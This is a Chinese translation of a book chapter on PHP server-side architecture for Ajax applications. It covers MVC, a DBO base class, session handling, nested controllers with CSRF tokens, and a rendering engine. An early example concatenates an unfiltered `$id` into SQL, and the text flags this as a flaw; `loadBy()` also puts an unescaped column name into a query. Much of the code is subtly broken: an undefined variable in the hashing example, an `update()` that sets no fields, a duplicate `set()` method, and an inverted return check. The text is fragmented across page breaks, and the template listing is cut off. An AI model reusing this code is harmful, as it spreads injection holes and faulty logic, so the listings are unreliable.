当贯穿应用程序的逻辑需要更新时，这简直就是一场噩梦，尤其是当这些逻辑包含一个高优先级漏洞（比如安全漏洞）时。

以PHP的`md5()`和`sha1()`库函数为例。这些字符串哈希工具可用于创建令牌，用于Cookie、会话、提交源验证、文件名，或任何其他需要看似随机但一致的、攻击者无法预测的唯一标识符的场景。开发者通常会直接调用这些函数，因为`sha1($text)`占用空间很小，不会增加代码的阅读难度。

然而，开发者随后可能会意识到，他们忽略了在函数调用中添加盐值¹。在这种情况下，源代码中的多个文件需要进行修改，这可能会通过加载全局设置和管理值而给代码增加更多混乱。哈希工具的一些用法可能需要使用随机盐值进行哈希；而另一些则使用预配置的盐值，例如在哈希密码时，以保持生成的值的一致性。在由此产生的所有场景中，需要向本不应包含这些逻辑的函数中添加更多逻辑：

```
class User extends DBO {
    /* ... */
    public function set($field, $value) {
        if ($field == 'password') {
            global $config;
            $salt = $config['settings']['salt'];
            $hash = sha1($string . $salt);
            return parent::set($field, $hash);
        } else {
            return parent::set($field, $value);
        }
    }
    /* ... */
}
```

`User::set()`方法的这个定义覆盖了基础的`DBO::set()`定义，以便将`password`字段的值设置为密码的哈希值，而不是其原始明文值。此方法引入了全局配置设置，以便访问预设的盐值，但它占用了`User::set()`方法中的空间来处理盐值和哈希；考虑到上下文，这种做法没有意义，并且会分散对方法本身初始意图的注意力，特别是如果开发后期需要在此方法中添加其他功能：

```
class User extends DBO {
    /* ... */
    public function set($field, $value) {
        if ($field == 'password') {
            return parent::set(
                $field,
                Utilities::hashWithSalt($value)
            );
        } else {
            return parent::set($field, $value);
        }
    }
    /* ... */
}
```

`User::set()`方法的这个定义只需要调用静态方法`Utilities::hashWithSalt()`，这使得维护变得容易得多。当围绕哈希函数的逻辑需要更改时，只有`Utilities`类中的定义需要更改，将代码差异本地化到单一位置，并确保所有使用哈希函数的代码都收到相同的必要更改。

从数据存储和展示中抽象逻辑对于Web应用程序尤其有帮助，对于Ajax驱动的Web应用程序更是如此。贯穿应用程序的交织逻辑会导致展示层依赖于数据的存储方式。反之亦然，应用程序逻辑甚至数据存储可能变得依赖于呈现给用户的接口。

将数据库查询和结果代码直接写入XHTML的输出中，会导致输出极其线性、基于网格且功能有限。因为管理查询和结果所需的代码已经污染了围绕标记本身的逻辑，所以添加更复杂的接口变得难以实现，更不用说维护了。

当引入Ajax驱动的接口元素时，混合接口和应用程序逻辑的问题会随着应用程序需要支持的输出形式数量的增加而直接增长，因为应用程序现在需要生成XML、JSON，或两者兼有。所有最初用于XHTML标记的逻辑现在必须在支持Ajax的每种输出方法中重复。此时，如果出现与前面描述的哈希逻辑问题类似的情况，即在多个接口的每种输出形式中都进行了调用，那么解决这个问题将花费相当多的时间和精力。

例如，一个应用程序可以使用以下代码来显示用户信息：

```
<div id="userinfo">
<?php
$query = 'SELECT `id`, `login`, `name`, `email`, `created`
    FROM `users` where `id` = ' . $id;
if ($result = mysqli_query($query)) {
    if ($user = mysqli_fetch_assoc($result)) {
        // 使用关联数组显示用户信息
    } else {
        // 用户未找到
    }
} else {
    // 查询错误
}
?>
</div>
```

这段代码有几个问题，这些问题在XML和JSON响应代码中也会出现。仅查看代码本身，开发者无法判断`$id`变量是否经过了任何过滤或转义。如果发生查询错误，开发者只能在输出中的特定点处理并显示错误；这种时序意味着到那时，大部分输出可能已经到达用户的浏览器。产生早期输出的代码将不得不假设查询会成功。使问题更加复杂的是：当应用程序需要支持其他数据库引擎时会发生什么？直接与数据库交互的查询和代码不可能继续留在输出的呈现中，并保持可维护性或可用性。

## 7.2 模型-视图-控制器设计模式

MVC模式是最广泛使用的将逻辑、数据和展示彼此抽象分离的方法之一。如第3章“客户端应用程序架构”所述，该模式将数据逻辑、业务逻辑和展示逻辑分离。例如，这允许单个应用程序的多个部分共享同一个逻辑实现。

前面描述的内联数据库查询和逻辑问题在基于MVC的应用程序中永远不会发生，因为按照定义，展示层根本无法知道数据的存储方式，更不用说使用特定于该存储方式的查询和函数库。应用程序所需的每种输出方法（XHTML、XML、JSON等）将通过使用相同的对象而非直接调用来访问数据，从而共享相同的数据检索逻辑。如果该逻辑中的任何部分需要更改，例如当应用程序需要支持另一个数据库引擎时，隔离的逻辑可以更改而不影响任何展示甚至应用程序逻辑；本章前面描述的哈希函数抽象也会遇到同样的问题。

### 7.2.1 模型

应用程序的数据逻辑通常围绕与应用程序的数据存储（通常是数据库）的交互展开。然而，这并不完全合理，因为数据逻辑本身是与存储类型无关的。数据逻辑应该只处理诸如权限、错误处理和依赖关系之类的逻辑。为确保这一点，类继承可以将存储方法本身从数据逻辑中移除。

正如大多数面向对象语言中的每个对象都扩展了`Object`类或子类²一样，应用程序中的所有数据对象都可以扩展一个名为`DBO`（数据库对象）的基类。此对象包含创建、检索、更新和删除记录所需的所有数据库逻辑：

```
/**
 * 数据库对象的大师
 */
class DBO {
    // 某些表将主键命名为其他名称
    public $pk = 'id';
```

¹ 有关加盐哈希的更多信息，请参见第8章“保持Web应用程序安全。”

² 在PHP中，是stdClass。


// 数据库表本身的名称
protected $table;
// 经过转义的数据库表名
private $table_mysql;
// 一个关联数组，用于保存表字段的值
protected $fields = array('id' => null);
// 一个数组，其键为 $fields 的键，但经过转义，仅供内部处理使用
private $fields_mysql;
// 一个数组，描述每个字段的类型和大小约束
protected $fields_constraints = array();
// 一个数组，记录在给定实例中已更新的字段
protected $updated = array();
// 一个标志，用于决定在 save() 时是调用 insert() 还是 update()
protected $inserted = false;

/**
 * 如果字段存在，返回该字段的当前值；
 * 否则，对于不存在的字段，返回 false。
 */
public function get($var) {
    if (array_key_exists($var, $this->fields)) {
        return $this->fields[$var];
    } else {
        return null;
    }
}

/**
 * 当字段存在时，更新其值，并在 updated 数组中
 * 标记其位置，以便更新脚本知道需要处理哪些内容。
 */
public function set($field, $value) {
    if (array_key_exists($field, $this->fields)) {
        if ($this->fields[$field] != $value) {
            // 抛出异常
            if ($this->meetsFieldConstraints($field, $value)) {
                $this->fields[$field] = $value;
                $this->updated[$field] = true;
            } else {
                return false;
            }
        }
        return true;
    } else {
        return false;
    }
}

/**
 * 检查字段的约束，以确定提供的值是否满足要求；
 * 如果通过所有断言，则返回 true；否则将失败断言
 * 抛出的异常传递给调用者。
 */
protected function meetsFieldConstraints($field, $value) {
    // 如果没有定义约束，则不会有任何检查失败
    if (isset($this->fields_constraints[$field])) {
        // 首先，检查类型
        if (isset($this->fields_constraints[$field]['type'])) {
            Utilities::assertDataType(
                $this->fields_constraints[$field]['type'],
                $value
            );
        }
        // 然后，检查大小
        if (isset($this->fields_constraints[$field]['size'])) {
            Utilities::assertDataSize(
                $this->fields_constraints[$field]['size'],
                $value
            );
        }
    }
    
    return true;
}

/**
 * 一个便捷方法，允许通过关联数组一次性设置多个字段。
 */
public function setAssoc($array) {
    if (is_array($array)) {
        foreach ($array as $field => $value) {
            $this->set($field, $value);
        }
    } else {
        return false;
    }
}

/**
 * save() 方法检查 inserted 标志，以决定是插入新记录还是更新现有记录。
 */
public function save() {
    if ($this->inserted) {
        return $this->update();
    } else {
        return $this->insert();
    }
}

/**
 * 根据主键删除一条记录。
 */
public function delete() {
    $statement = $this->database->prepare(
        'DELETE FROM ' . $this->table_mysql . ' WHERE '
        . $this->fields_mysql[$this->pk] . ' = ?'
    );
    if ($statement->execute(array($this->fields[$this->pk]))) {
        $this->inserted = false;
        return true;
    } else {
        return false;
    }
}

/**
 * 将记录的已更新字段设置为其新值。
 */
protected function update() {
    if (!in_array(true, $this->updated)) {
        return true;
    }
    $qry = 'UPDATE ' . $this->table_mysql . ' SET ';
    $f = false;
    foreach ($this->updated as $field => $value) {
        if (!$f) {
            $f = true;
        } else {
            $qry .= ', ';
        }
    }
    $statement = $this->database->prepare($qry);
    if ($statement->execute()) {
        return true;
    } else {
        return false;
    }
}

/**
 * 插入一条新记录。
 */
protected function insert() {
    $qry = 'INSERT INTO ' . $this->table_mysql . ' (';
    $f = false;
    foreach ($this->fields as $field => $value) {
        if (!$f) {
            $f = true;
        } else {
            $qry .= ', ';
        }
        $qry .= $this->fields_mysql[$field];
    }
    $qry .= ') VALUES (';
    $f = false;
    foreach ($this->fields as $field => $value) {
        if (!$f) {
            $f = true;
        } else {
            $qry .= ', ';
        }
        $qry .= '?';
    }
    $qry .= ')';
    $statement = $this->database->prepare($qry);
    if ($statement->execute()) {
        $id = $this->database->lastInsertId();
        $this->inserted = true;
        $this->fields[$this->pk] = $id;
        return true;
    } else {
        return false;
    }
}

/**
 * 根据主键从数据库表中获取一条记录。
 */
public function load($id) {
    $fields = array($this->pk);
    $fields = array_merge($fields, $this->fields_mysql);
    $fields = implode(', ', $fields);
    $qry = "SELECT {$fields} FROM {$this->table_mysql} WHERE " . $this->fields_mysql[$this->pk] . " = ?";
    $statement = $this->database->prepare($qry);
    $statement->execute(array($id));
    $result = $statement->fetch();
    if (is_array($result)) {
        foreach ($result as $key => $value) {
            if (isset($this->fields[$key])) {
                $this->fields[$key] = $value;
            }
        }
        return true;
    }
    return false;
}

/**
 * 根据主键从数据库表中获取一条记录。
 */
public function loadBy($key, $id) {
    $fields = array($this->pk);
    $fields = array_merge($fields, $this->fields_mysql);
    $fields = implode(', ', $fields);
    $qry = "SELECT {$fields} FROM {$this->table_mysql} WHERE {$key} = ?";
    $statement = $this->database->prepare($qry);
    $statement->execute(array($id));
    $result = $statement->fetch();
    if (is_array($result)) {
        foreach ($result as $key => $value) {
            if (isset($this->fields[$key])) {
                $this->fields[$key] = $value;
            }
        }
        return true;
    }
    return false;
}

/**
 * 从一个数组设置值。
 */
public function set($data) {
    foreach ($data as $key => $value) {
        $this->fields[$key] = $value;
    }
}

/**
 * 获取主键。
 */
public function getPK() {
    return $this->pk;
}

/**
 * 获取表名。
 */
public function getTable() {
    return $this->table;
}

/**
 * 获取数据库连接。
 */
public function getDb() {
    return $this->database;
}

/**
 * 获取 fields 数组。
 */
public function getFields() {
    return $this->fields;
}

/**
 * 获取 fields_mysql 数组。
 */
public function getFieldsMysql() {
    return $this->fields_mysql;
}

/**
 * 获取 updated 数组。
 */
public function getUpdated() {
    return $this->updated;
}

/**
 * 获取 inserted 标志。
 */
public function isInserted() {
    return $this->inserted;
}

/**
 * 根据主键选择一条记录。
 */
public function selectById($id) {
    $fields = array($this->pk);
    $fields = array_merge($fields, $this->fields_mysql);
    $fields = implode(', ', $fields);
    $values = array($id);
    return $this->select($fields, $values);
}

/**
 * 根据字段数组和值数组匹配选择一条记录。
 */
public function select($fields, $values) {
    global $config;
    if (is_array($fields) && is_array($values)) {
        $qry = 'SELECT ('
            . implode(', ', $this->fields_mysql)
            . ') FROM ' . $this->table_mysql . ' WHERE ';
        $f = false;
        foreach ($fields as $i => $field) {
            if (isset($this->fields_mysql[$field])) {
                if (!$f) {
                    $f = true;
                } else {
                    $qry .= ' AND ';
                }
                $qry .= $this->fields_mysql[$field] . ' = ? ';
            }
        }
        $statement = $this->database->prepare($qry);
        if ($statement->execute($values)) {
            if ($row = $statement->fetch(PDO::FETCH_ASSOC)) {
                $this->fields = $row;
                $this->inserted = true;
                return true;
            }
        } else {
            $error = $statement->errorInfo();
            $GLOBALS['messenger']->add($error[2], 'error');
        }
    }
    return false;
}

/**
 * 因为 PDO 不会转义表和字段标识符，所以此方法创建表和字段标识符的
 * 私有、已转义且带引号的副本，供本类执行的 SQL 查询使用。
 */


### 7.2.2 控制器

在 MVC 架构中，**控制器**包含所有的应用程序逻辑本身，容纳了所有处理对象交互的代码；它还处理请求的操作以及应用程序需要的、不属于数据管理或表示逻辑范畴的任何其他事务。它负责处理操作的授权检查（但不负责检查数据本身，数据检查由模型层处理）、为操作加载资源以及围绕操作的任何业务逻辑。然后，它加载视图层所需的资源，并将渲染所需的数据和资源移交给视图层。

#### 7.2.2.1 嵌套控制器

为了不在每个控制器对象中重复编写相同的架构代码，应用程序可以有一个**中央控制器**对象来管理这些共同任务。每个嵌套在中央控制器内的控制器，就可以只专注于它需要包含的逻辑。这也使得在开发后期，如果出现架构变更，适应起来要容易得多。

在这个示例架构中，中央控制器尽可能保持轻量，并作为应用程序的坚实支点。它发起请求处理，为应用程序的其余部分创建数据库连接和环境。然后，它确定特定请求所需的控制器，加载它，并将请求传递给它，以执行围绕该特定功能领域的逻辑。

这种结构尽可能地将架构本身的逻辑与实际应用程序的逻辑抽象开来，使代码更清晰、更易于维护。通过这种方式，应用程序可以仅在需要时加载功能，而不是在每次请求时加载大量的代码库。

218 第7章 服务器端应用架构

```
    */
    protected function escapeIdentifiers() {
        $this->table_mysql = $this->escapeTable($this->table);
        foreach ($this->fields as $field => $value) {
            $this->fields_mysql[$field] = $this->escapeIdentifier($field);
        }
    }

    /**
     * Table names can have different naming restrictions, and
     * in MySQL, table names cannot end in a space or contain
     * the characters "/", "\\", or "."
     */
    protected function escapeTable($string) {
        // Table names in MySQL have slightly different
        // naming requirements
        $temp = preg_replace('/[\/\\.]/D', '', $string);
        $temp = str_replace('`', '``', $temp);
        return '`' . trim($temp) . '`';
    }

    /**
     * Field names simply have all existing backticks escaped
     */
    protected function escapeIdentifier($string) {
        return '`' . str_replace('`', '``', $string) . '`';
    }

    /**
     * When the caller specifies an ID, call DBO::load()
     * to load the record
     */
    public function __construct($id = null) {
        global $controller;
        $this->database = $controller->getDatabaseHandle();
        if (!is_null($id)) {
            $this->load($id);
        }
        $this->escapeIdentifiers();
    }
}
```

这个 DBO 类实现了管理数据库记录（等同于 PHP 对象的数据）所需的所有基本方法。它尽可能地封装了用于管理单个记录的直接数据库交互，PDO 使得编写这些交互变得简单得多，尤其是当应用程序需要数据库可移植性时。查询本身仍然需要为每个特定的受支持数据库编写，但是通过使用查询生成库、预编写的查询库或任何其他 SQL 抽象方法，应用程序可以实现数据库可移植性，而对 MVC 实现中模型层的应用程序架构和逻辑影响甚微。

> 通常，一个完整的数据库抽象层会位于数据对象和数据访问类中的数据库交互之间。这使得支持模式变更、额外的数据库引擎，甚至数据库之外的数据存储变得容易得多。本书将不涉及此主题，仅仅是为了让本章的重点保持在 Ajax 驱动应用程序的服务器端架构上。

通过扩展这个对象，应用程序模型层的各个部分可以恰好包含它们需要包含的逻辑，而不会让数据存储逻辑污染源代码。这允许灵活性，例如以下 Session 类，它扩展了 DBO 类，以便允许通过相同的通用接口访问会话数据，同时管理数据库中的会话记录：

```
// The application will include this file only once,
// and will start the session only once
session_start();

/**
 * The Session class manages data in the user_sessions table,
 * while primarily managing the PHP session itself; this structure
 * could just as easily store all session information in a database
 * table instead of using PHP's built-in session functionality,
 * and the object interface would not require any change at all
 */
class Session extends DBO {
	public $pk = 'session';
	// A reference to the $_SESSION superglobal
	protected $session;
	// The joining table between users and $_SESSION
	protected $table = 'user_sessions';
	protected $fields = array(
    'user' => null,
    'session' => null
);
/**
 * Regenerating session IDs can only help security, especially
 * when called on successful login via credentials
 */
public function regenerate() {
    session_regenerate_id(true);
    $this->fields[$this->pk] = session_id();
    return $this->save();
}
/**
 * Session::get() overrides DBO::get() in order
 * to support transparently retrieving information
 * from the session itself
 */
public function get($key) {
    if ($key == 'id') {
        return session_id();
    } else if ($key == 'user') {
        return $this->fields['user'];
    } else if (isset($this->session[$key])) {
        return $this->session[$key];
    } else {
        return false;
    }
}
/**
 * Session::set() overrides DBO::set() in order
 * to support transparently assigning information
 * to the session itself
 */
public function set($key, $value) {
    if ($key == 'id') {
        return false;
    } else if ($key == 'user') {
        $this->fields['user'] = $value;
    } else {
        $this->session[$key] = $value;
    }
    return true;
}

/**
 * Because the primary key value comes from the request
 * itself (via the session in the browser), Session::load
 * should offer a way of automatically handling this
 */
public function load() {
    return parent::load($this->fields[$this->pk]);
}

/**
 * Override the constructor in order to create the reference
 * to the $_SESSION superglobal
 */
public function __construct() {
    global $_SESSION;
    parent::__construct();
    $this->session = $_SESSION;
}
}
```

Session 类的实现相对简单，因为它的父类 DBO 类已经实现了管理其对应数据库记录所需的一切。因为 Session 实例也可以有一个简单的对象接口，所以基于用户会话对用户进行身份验证，并将该用户加载到 User 对象中，可以像以下 User 类方法中的代码一样简单：

```
if ($this->session->load()) {
    if ($userid = $this->session->get('user')) {
        if ($this->load($userid)) {
            // Authenticated user with a valid session
        } else {
            // Bad or old session record returning an invalid userid
        }
    } else {
        // User with an anonymous session
    }
} else {
    // User with a completely new session
}
```

更严格的错误检查、日志记录以及在必要时向用户反馈将使此过程更加完善，但在此示例中，与 `Session` 实例交互以确定会话状态至四点粒度的逻辑仅占前两行。会话信息可以使用 PHP 的原生会话处理方法、自定义数据库表、临时 XML 文件来存储，或者干脆保存在内存中。存储方式对访问数据的对象接口没有影响，无论其最终目的地是哪里，抽象都使得读写操作变得轻而易举。


##### CentralController

以下的 `CentralController` 类并不负责处理所有请求逻辑，其核心作用仅是根据应用区域加载对应的控制器。通过这种嵌套控制器的方式，应用的骨架逻辑可以保持在中央类中，而每个子控制器则处理各自的业务逻辑。这种适度的抽象使得类结构更加清晰，并确保（结合一个简单的 `Utilities` 类或通用全局函数库）每个类只包含其职责范围内的逻辑：

```php
class CentralController {
    // Alias to configuration array
    protected $config;
    // References to the globals
    protected $raw_get;
    protected $raw_post;
    protected $raw_request;
    protected $raw_headers;
    // The controller for the given part
    protected $controller;
    // A reference to the current user
    protected $user;

    public function handleRequest($get, $post = null, $request = null) {
        $this->raw_get = $get;
        $this->raw_post = (is_null($post)) ? array() : $post;
        $this->raw_request = (is_null($request)) ? array() : $request;
        try {
            $this->loadUser();
            $this->loadController();
            $this->passTheBuck();
        } catch (Exception $e) {
            // Throw fatal error page
        }
    }

    protected function loadUser() {
        try {
            Utilities::loadModel('User');
            $this->user = new User();
            $this->user->authenticate();
        } catch (Exception $e) {
            exit($e->getMessage());
        }
    }

    protected function loadController() {
        global $controllers;

        // If no valid controller specified, fall back to default
        $controller_key = 'default';
        if (isset($this->raw_get['c'])
                && isset($controllers[$this->raw_get['c']])) {
            $controller_key = $this->raw_get['c'];
        }
        // Find the controller or throw an Exception
        $controller_path = 'controllers/'
                . $controllers[$controller_key]['filename'] . '/'
                . $controllers[$controller_key]['filename'] . '.php';
        // Just in case the file moved since generating the list of
        // available controllers, check before loading
        if (!file_exists($controller_path)) {
            throw new Exception('Controller not found');
        }
        // Load the file and instantiate the controller
        include $controller_path;
        $this->controller = new $controllers[$controller_key]['class']();
        return true;
    }

    /**
     * A simple method to lazy-load the HTTP request headers and return
     * the requested value if it exists
     */
    public function getHeader($key) {
        // Late-load apache headers
        if (!isset($this->raw_headers)) {
            $this->raw_headers = apache_request_headers();
        }
        if (isset($this->raw_headers[$key])) {
            return $this->raw_headers[$key];
        } else {
            return false;
        }
    }

    protected function passTheBuck() {
        $this->controller->handleRequest(
            $this->raw_get,
            $this->raw_post,
            $this->raw_request
        );
    }

    public function getDatabaseHandle() {
        if (!isset($this->database)) {
            $this->loadDatabase();
        }
        return $this->database;
    }

    protected function loadDatabase() {
        $this->database = new PDO(
            $this->config['database']['dsn'],
            $this->config['database']['username'],
            $this->config['database']['password'],
            $this->config['database']['options']
        );
    }

    public function display() {
        $this->controller->display();
    }

    public function __construct() {
        include 'configuration.php';
        $this->config = $config;
    }
}
```

该控制器还能处理为每个嵌套控制器提供唯一令牌的问题。此令牌与用户会话关联，并使用 `Utilities` 类中的随机输入进行哈希处理。这种做法允许嵌套控制器检查与特定操作相对应的验证令牌，从而确保授权。这使得攻击者实施 CSRF 攻击变得更加困难。

通过在 `CentralController` 对象中使用这种实现，逻辑本身得以与应用各部分的逻辑分离，同时为每个部分增加了一层安全防护。添加到 `CentralController` 的以下对象变量和方法，使得通过调用 `CentralController` 的单一方法，即可按照所需方式（POST 变量或 HTTP 头）检查验证令牌：

```php
// A Boolean flag indicating whether the validation token matched
protected $validated = false;
protected $validation_token;

/**
 * Get a token based on the current area of the application,
 * but only if the user has changed from a different area
 */
protected function generateValidationToken($area) {
    // Get the last viewed area as stored in the session
    $last_viewed = $this->user->session->get('last_viewed_area');
    // If different than this area, regenerate the token
    // and apply to the session
    if ($area != $last_viewed) {
        $session = $this->user->session->get('id');
        $this->validation_token = Utilities::generateToken($area . $session);
        $this->user->session->set('last_viewed_area', $area);
    }
}

/**
 * Validates the token against the request headers
 */
public function validateHeader() {
    return $this->validateToken(
        $this->getHeader(
            $this->config['settings']['validation']
        )
    );
}

/**
 * Validates the token against the POST data
 */
public function validatePost() {
    if (isset($this->raw_post[$this->config['settings']['validation']])) {
        return $this->validateToken(
            $this->raw_post[$this->config['settings']['validation']]
        );
    }
}

/**
 * Validate that the current token and the one from the request match
 */
public function validateToken($test) {
    return ($test === $this->validation_token);
}
```

现在，`CentralController` 只需根据当前请求调用生成令牌的方法，以便在验证方法中使用。由于令牌将基于相关控制器生成，使用之前配置的关联数组中的控制器键将效果良好。`loadController()` 方法在成功实例化控制器后，可以使用相同的键调用令牌生成方法：

```php
protected function loadController() {
    global $controllers;

    // If no valid controller specified, fall back to default
    $controller_key = 'default';
    if (isset($this->raw_get['c'])
        && isset($controllers[$this->raw_get['c']])) {
        $controller_key = $this->raw_get['c'];
    }

    // Find the controller or throw an Exception
    $controller_path = 'controllers/'
                       . $controllers[$controller_key]['filename'] . '/'
                       . $controllers[$controller_key]['filename'] . '.php';

    // Just in case the file moved since generating the list of
    // available controllers, check before loading
    if (!file_exists($controller_path)) {
        throw new Exception('Controller not found');
    }

    // Generate the request validation token
    $this->generateValidationToken($controller_key);

    // Load the file and instantiate the controller
    include $controller_path;
    $this->controller = new $controllers[$controller_key]['class']();
    return true;
}
```

既然 `CentralController` 能够处理初始请求、建立数据库连接、尝试加载并验证用户、从一组嵌套控制器中动态加载，并提供基本的全局 CSRF 保护，那么嵌套控制器就可以建立在此层之上，专注于处理自己的需求。

##### RegistrationController

下面的嵌套控制器只做一件事，也只做好一件事：它通过将用户注册表单与 `User` 对象连接起来，在用户输入所有必要信息后，在数据库中创建记录。它将数据库层的所有细节抽象出来，远离视图，只向视图提供数据并处理其响应。它的一些基础的、非注册特定的逻辑放在一个父 `Controller` 类（它可以继承该类）中会更合理，但为了保持可读性，本章将其定义为一个单独的类：

```php
Utilities::loadModel('User');

class RegistrationController {
    // References to the globals
    protected $raw_get;
    protected $raw_post;
    protected $raw_request;
    // A reference to the user object created here
    protected $user;
    protected $userinfo = array(
        'login' => null,
        'name' => null,
        'email' => null,
        'password' => null
    );
    // What actually handles the output
    protected $view;
    // How we'll need to answer requests
    protected $method;

    /**
     * Get the request method from the View, instantiate the rendering
     * engine, set the rendering context to this file's directory,
     * filter the request, and attempt to create the user record from
     * the request data
     */
    public function handleRequest($get, $post = null, $request = null) {
        // Create the rendering engine
        $this->method = View::getMethodFromRequest($get);
        $this->view = View::getRenderingEngine($this->method);
        $this->view->setContext(dirname(__FILE__));
        // Filter the request
    }
}
```


this->filterRequest($get, $post, $request);
// 尝试使用过滤后的请求创建新用户记录
$this->createUser();
}

/**
 * 仅当中央控制器验证了请求头或POST值（对于完整的页面加载/表单提交）时，才接受请求数据
 */
public function filterRequest($get, $post = null, $request = null) {
    global $controller;

    if ($controller->validateHeader()
            || ($this->method == View::METHOD_XHTML
                && $controller->validatePost())) {
        $this->raw_get = $get;
        $this->raw_post = (is_null($post)) ? array() : $post;
        $this->raw_request = (is_null($request)) ? array() : $request;
    } else {
        return false;
    }
}

/**
 * 如果所有字段都存在，则尝试创建用户记录，
 * 将任何异常消息传递给消息处理器
 */
protected function createUser() {
    global $messenger;

    $this->user = new User();
    if ($this->getUserInfo()) {
        $errors_found = false;
        foreach ($this->userinfo as $field => $value) {
            try {
                $this->user->set($field, $value);
            } catch (Exception $e) {
                if (!$errors_found) {
                    $errors_found = true;
                }
                $messenger->add($e->getMessage(), $field);
            }
        }

        if (!$errors_found) {
            try {
                $this->user->save();
            } catch (Exception $e) {
                $messenger->add($e->getMessage(), 'error');
            }
        }
    }
}

/**
 * 从POST请求中提取每个用户字段的值，
 * 要求密码和确认密码必须匹配
 */
public function getUserInfo() {
    global $messenger;
    foreach ($this->userinfo as $field => $value) {
        if (isset($this->raw_post[$field])) {
            if ($field == 'login' && User::loginExists($value)) {
                $messenger->add('登录名已被使用', 'login');
                continue;
            } else if ($field == 'password') {
                if (!isset($this->raw_post['password_confirm'])
                    || $this->raw_post[$field]
                       != $this->raw_post['password_confirm']) {
                    $messenger->add(
                        '密码和确认密码必须匹配',
                        'password'
                    );
                    continue;
                }
            }
            $this->userinfo[$field] = $this->raw_post[$field];
        }
    }
    return in_array(null, $this->userinfo);
}

/**
 * 显示渲染引擎的输出，
 * 根据给定的请求方法使用适当的模板
 */
public function display() {
    switch ($this->method) {
        case View::METHOD_JSON:
            $this->view->setTemplate('json.php');
            break;
        case View::METHOD_XML:
            $this->view->setTemplate('xml.php');
            break;
        case View::METHOD_XHTML:
        default:
            $this->view->setTemplate('index.php');
            break;
    }
    $this->view->display();
}

这个`RegistrationController`处理了前面描述的用户注册逻辑，仅在具备所有必要字段时才尝试创建用户。它处理登录名是否已被使用的检查，并将每个错误传递给`Messenger`对象；错误按其关联的字段进行分类（或者对于通用的`User::save()`失败则简单标记为错误），这样视图层就可以根据需要处理所有消息和错误。此功能也可以被提取到通用的服务层中，这样其他对象无需重写逻辑就能进行相同的检查，对于更复杂的应用程序来说，这很可能应该是必要的。

`display`方法查看请求方法并为渲染引擎分配适当的模板。在处理请求实例化渲染引擎后，它已经设置了渲染的上下文为脚本所在的目录，这样如果需要，控制器可以在其他方法中向其分配变量。

现在这个应用程序已经有了模型和控制器，视图只需要处理那些它特有的任务；视图将通过GET、POST和Ajax调用中的头部传递数据。它不需要知道如何与其他层中的任何内容交互，除了查询`Messenger`实例以获取任何适用的消息和错误，以便它决定在输出中显示什么。

### 7.2.3 视图

在这个示例架构中，视图由渲染引擎、模板和第3章涵盖的客户端架构组成。与架构的模型一样，这些类和模板很少包含涉及应用程序其他层的逻辑。

这种明确的分离使得客户端应用程序几乎可以完全作为一个独立于服务器端Web应用程序的应用程序存在；客户端应用程序仅仅将其视为可用的API。这种划分还允许客户端和服务器端应用程序具有令人难以置信的灵活性，因为它们只需要保持面向对象的接口一致即可。

#### 7.2.3.1 渲染

开发人员可以使用PHP本身作为模板语言，这个示例渲染引擎正是如此。大多数模板引擎包含丰富的实用工具集，用于转义、循环和将标记分组为逻辑块，以在整个应用程序中使用。这个示例将坚持使用最基础的功能，以展示即使是一个使用PHP作为语言的极简渲染引擎，仍然能产生应用程序视图所需的抽象。下面的`RenderingEngine`类实现了引擎的核心功能。它可以分配变量，在显示时暴露给模板。它可以更改上下文，以便模板可以包含文件而无需知道自身的文件路径。它发送额外的响应头，尽管默认情况下没有，因为它存在的唯一目的就是让另一个类扩展它：

```php
class RenderingEngine {
    // 基础目录
    protected $context = '.';
    // 模板目录名称
    protected $templates = 'templates';
    // 要显示的模板文件名
    protected $template = 'index.php';
    // 提供向模板显式传递变量的能力
    protected $variables = array();

    /**
     * 设置用于包含的基础目录
     */
    public function setContext($path) {
        $this->context = $path;
    }

    /**
     * 覆盖默认的模板目录
     */
    public function setTemplatesDirName($dir) {
        $this->templates = $dir;
    }

    /**
     * 用于将变量传递给模板，以便模板无需了解设置变量值的控制器
     */
    public function setVariable($key, $value) {
        $this->variables[$key] = $value;
    }

    /**
     * 覆盖默认的模板名称
     */
    public function setTemplate($filename) {
        $this->template = $filename;
    }

    /**
     * 更改到指定的上下文，以便从模板内部进行的任何包含调用都不会迫使模板知道自己的路径
     */
    public function display() {
        // 将当前工作目录存储在临时变量中
        $cwd = getcwd();
        chdir($this->context);
        $template_path = $this->templates . DIRECTORY_SEPARATOR . $this->template;
        if (file_exists($template_path)) {
            $this->sendHeaders();
            include $template_path;
            chdir($cwd);
        } else {
            chdir($cwd);
            throw new Exception(
                '模板 "' . $template_path . '" 不存在。'
            );
        }
    }
}
```

这为从控制器使用提供了一个极其简单的接口。本章前面的`RegistrationController`类使用渲染引擎，仅在其处理过程的不同点调用以下四个方法：

```php
$this->view->setContext(dirname(__FILE__));
$this->view->setTemplate('index.php');
$this->view->sendHeaders();
$this->view->display();
```

第三个方法`sendHeaders()`作为独立方法存在，因为`RenderingEngine`类可以包含嵌套实例以呈现只显示整个输出一部分的模板。当这样做时，尝试发送更多头部不仅会导致没有头部实际发送，还会导致PHP错误被记录，因为PHP根本不允许这种尝试。

当渲染引擎显示模板时，它只是简单地调用`include`。这会在模板引擎自身的上下文中运行模板，使模板能够访问对象内的`variables`数组。它还赋予模板调用对象方法的能力，为声明转义和格式化方法提供了非常方便的范围。

#### 7.2.3.2 模板

这种架构不仅使得以多种格式渲染输出变得容易得多，而且在这种情况下，XHTML格式还将页面渲染为一个为用户提供的多步骤选项卡式界面。控制器和模型层对此一无所知，也不需要知道，因为模板可以处理所有这些，并且客户端应用程序架构将其转变为一个完全由Ajax驱动的接口。当用户完成当前字段集时，客户端应用程序会向服务器发送一个Ajax请求，设置这些特定字段，以便它可以处理任何错误，然后再允许用户继续到下一个选项卡。

模板本身在大多数情况下包含非常少的PHP，因为它们主要存在于围绕数据和功能形成标记。用户注册页面的主模板只有几个部分，包括当浏览器不支持Ajax并强制应用程序回退到完整页面加载时，基于当前步骤选择嵌套模板：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11-transitional.dtd">
```


## 7.3 在你的模板引擎中使用工厂模式

图 7.1 所示的工厂模式使用一个通用接口，根据传递的参数来实例化给定的对象子类。在模板引擎的上下文中，工厂可以返回一个已经为特定类型的响应（例如 XHTML）设置好的模板引擎对象。请求实例化此对象的代码不需要知道返回的模板对象类型；它只需要知道如何与通用的模板对象协同工作。

